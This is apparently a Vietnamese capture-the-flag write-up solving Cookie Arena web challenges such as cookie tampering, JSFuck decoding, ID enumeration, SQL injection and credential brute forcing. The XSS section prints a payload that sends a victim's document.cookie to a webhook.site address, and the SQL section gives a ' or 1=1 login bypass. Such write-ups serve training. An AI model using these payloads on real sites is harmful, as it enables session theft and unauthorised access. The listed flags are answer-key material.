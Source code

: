 # Writeup-Cookie-Arena-CTF - WEB

## WEB Basic

### Hân Hoan
>Cookie
> 
Sau khi đăng nhập với username=zev và password=123 thì ta thấy được :

![cookie](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/bf4779a95f46ac284a97d67a890129d623457bfd/image/cookie1.PNG)

Sử dụng tiện ích EditThisCookie => Ta kiểm tra cookie thì thấy Role đang thiết lập mặc định là Guest:

![cookie](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/42fdc78311c5fce5192ac65f3e015fa7123c4303/image/cookie2.PNG)

Thay Guest thành CookieHanHoan => Flag
![cookie](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/42fdc78311c5fce5192ac65f3e015fa7123c4303/image/cookie_flag.PNG)

### Header 401 
> HTTP Protocol
> 
Xem source code ta thấy được chú thích gợi ý Authentication :

![header](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/06e9a05c6c9970c815c2f43e1d2136e5316bb494/image/h401_1.PNG)

Ta base64 user:pass :

![header](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/06e9a05c6c9970c815c2f43e1d2136e5316bb494/image/h401_2.PNG)

Muốn xác thực thì ta cần đổi method GET thành POST và thêm Header **Authorization:Basic<Base64username:password>** => ta sử dụng Burp Suite :

![header](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/06e9a05c6c9970c815c2f43e1d2136e5316bb494/image/h401_3_flag.png)

### JS B**p B**p
> Do you know special JavaScript?
> 
Xem source code ta phát hiện 4 file .js và 1 hàm chức năng 

![js](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/96a28f7b2e0b76715f0f5fde7e685899b392c1c7/image/jsfuck2.PNG)

Từ source code trên ta thấy được có 3 hàm xác thực verifyUsername(), verifyPassword(), verifyRole() => Ta có thể sd tool decode [JSFUCK](https://enkhee-osiris.github.io/Decoder-JSFuck/) hoặc dùng console :

![js](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/96a28f7b2e0b76715f0f5fde7e685899b392c1c7/image/jsfuck3.PNG)

Hàm verifyRole() tương đối phức tạp ta phân tích từng ý một :

```js
function verifyRole(role) {
    if (role.charCodeAt(0) != 64) {
        return false;
    }
    if ((role.charCodeAt(1) + role.charCodeAt(2) != 209) && (role.charCodeAt(2) - role.charCodeAt(1) != 9)) {
        return false
    }
    if ((role.charCodeAt(3).toString() + role.charCodeAt(4).toString() != "10578") && (role.charCodeAt(3) - role.charCodeAt(4) != 27)) {
        return false
    }
    return true
}
```
Chữ cái đầu tiên ứng charCodeAt(0) ứng với mã ascii(64) = "@"
Chữ thứ 1 và thứ 2 lần lượt được tìm thấy thông qua phép toán : 
x1 + x2 = 209 
x1 - x2 = 9
=> x1 = 100 = "d"
=> x2 = 109 = "m"
Chữ cái thứ 3 và 4 được phân tích thành chuỗi và ghép lại :
"x3" + "x4" = "10578"
=> x3 = 105 = "i"
=> x4 = 78 = "N"

Xác thực đăng phập => Flag   
![js](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/96a28f7b2e0b76715f0f5fde7e685899b392c1c7/image/jsfuck4.PNG)

Flag : `Flag{JAV-ascript_F*ck}`

### Impossible
> Tìm cách đăng nhập thông qua password
> 
Xem source code thì ta thấy được :
```js
function checkPass()
{
	var password = document.getElementById('password').value;
	if (btoa(password.replace("cookiehanhoan", "")) == "Y29va2llaGFuaG9hbg==") {
		window.setTimeout(function() {
			window.location.assign('check.php?password=' + password);
		}, 500);
	}
}
```
Hàm btoa() : mã hóa string thành base64
Nếu **password** được nhập là cookiehanhoan thì sẽ bị lọc 
Mà string sau khi decode base64 == "Y29va2llaGFuaG9hbg==" ==cookiehanhoan
Sau khi nhìn lại ta phát hiện chức năng .replace() không hề lọc đệ quy mà chỉ lọc 1 lần 
=> Ta có thể bypass nó bằng cách **cookiecookiehanhoanhanhoan**
=> Flag : `Flag{Javascript_is_not_safe???}`

###Infinite Loop
>Vòng lặp vô hạn
>
Sau khi đăng nhập với 1 username:password bất kì ta sẽ được chuyển liên tục page với id được thay đổi liên tục => Để kiểm tra ta sử dung Burp SUite thì thấy được :
![loop](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/67500160e2e9b5a515b19d62811f5b6420af3d93/image/loopid1.PNG)

Ta gửi 1 request đến Repeater để kiểm tra từng id 0->10 thì phát hiện ra flag hoặc có thể follow redirection để chuyển hướng liên tục cho đến khi thấy flag
![loop](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/67500160e2e9b5a515b19d62811f5b6420af3d93/image/loop_flag.png)

Bạn cũng có thể code 1 script nhỏ của py để chạy test id như sau :
```py
import requests

for i in range(0,11):
	idd=str(i)
	url = f"http://chal6.web.letspentest.org/check.php?id={idd}"
	r=requests.get(url,allow_redirects=False)
	if "Flag{" in r.text:
		print(r.text)
		break
	else :
		print("Failed id ="+ idd)
```

Flag: `Flag{Y0u_c4ptur3_m3_xD!!!}`

###I am not a robot
>robots.txt
>
Sau khi đọc đề mình đoán rằng bài này sẽ sử dụng **/robots.txt** thì thấy :
![robots](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/67500160e2e9b5a515b19d62811f5b6420af3d93/image/robots1.PNG)

Truy cập vào **/fl@g1337_d240c789f29416e11a3084a7b50fade5.txt** => Flag

Flag: `Flag{N0_B0T_@ll0w}`

###Sause
Xem source code => Flag 
![sause]()

Flag: `Flag{Web_Sause_Delicious}`

##Web Exploitation

###XSS
>Lỗ hổng XSS
>
Đề bài đã cho chúng ta gợi ý về lỗ hổng của bài này 
Ta test script cơ bản của XSS : `<script>alert(1)</script>`
=> Thì thấy trang xuất hiện thông báo 1 hiện lên ở page => Đó là dấu hiệu cho biết page này đã dính lỗi xss
Trước hết ta tạo 1 request bằng tool : [Webhook.site](https://webhook.site/#!/02c72b46-4d85-429b-ad90-6a208d9d102f)
Để lấy cookie ta sử dụng script sau : `<img src=x onerror=this.src='https://webhook.site/02c72b46-4d85-429b-ad90-6a208d9d102f/?'+document.cookie;>`

###Ét Quy Eo
> Lỗ hổng SQL Basic
> 
Cũng như bài xss đề bài đã gợi ý cho chúng ta về lỗ hổng của bài này 
Ta test script cơ bản của SQL : `' or 1=1-- -` cho cả username và password 
![sql](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/sql.png)

Ta decode base64 => flag 
Flag: `Flag{Fr33_Styl3}` 

> Query :
>
```sql
SELECT username,password from users where username = ' or 1=1-- -'&password=' or 1=1-- -'
```

###Misconfiguration
>Gà mắc phải một sai lầm không đáng có trong việc thiết lập cấu hình Web Server
>
Sau khi đọc gợi ý về **thiết lập cấu hình Web Server** mình đã test thử **/.htaccess** 
![config](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/config.PNG)

Nhưng sau khi test thêm vài endpoint nhưng vẫn không được mình quyết định sử dụng tool DirBuster 
![config](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/config1.PNG)

Sau khi chạy tool thì tìm thấy **/web.config**
![config](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/config2.PNG)

Trên page ta thấy **/backup-ddmmyy.bak** thì nó tải 1 file .bak về máy 
Sau đó sử dụng lệnh file backup-ddmmyy.bak => Thì phát hiện nó là 1 file .zip  
Mình đổi tên file thành backup-ddmmyy.zip => unzip thì phát hiện 1 file part3.txt
Ghép 3 phần ta được 1 flag hoàn chỉnh :

Flag: `Flag{1b283f0725d536a0f217d89caca7b183}`


###Gatling Gun
>Nhặt đạn ở trong Github của Cookie Hân Hoan nhé
>
Page có dạng yêu cầu đăng nhập username, password, ip admin
![gun](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/2e175223cd43254ccbefaa5a1c5704260a0452f1/image/gun.PNG)

Đến gihub của cookiehanhoan ta thấy được :
![gun](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/2e175223cd43254ccbefaa5a1c5704260a0452f1/image/gun_github.PNG)

Từ kinh nghiệm của bài github ở phần forensic mình đã xem thử phần history của tất cả các file xem có lọc được bớt payload hay không 
Sau 1 hồi check thì phát hiện ở file ip có 1 file đã được tạo lúc đầu với chỉ 1 ip duy nhất là `0.0.0.0`
![gun](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/2e175223cd43254ccbefaa5a1c5704260a0452f1/image/gun_ip.PNG)

Kiểm tra file username thì thấy tên file **userLame.txt** hmmmm user là me ?? có khi nào username chính là tên Folder HoangTuEch 
Sau khi vào file mình đã lọc ra tên username trùng tên với folder => `hoangtueck` 
![gun](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/2e175223cd43254ccbefaa5a1c5704260a0452f1/image/gun_pass.png)

Bắt đầu chạy burp suite -> intridute để test thử những phán đoán của bản thân 
![gun](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/2e175223cd43254ccbefaa5a1c5704260a0452f1/image/gun_flag.PNG)

Flag: `FLAG{e6c068faf9241fe9d1f2000516718377}`

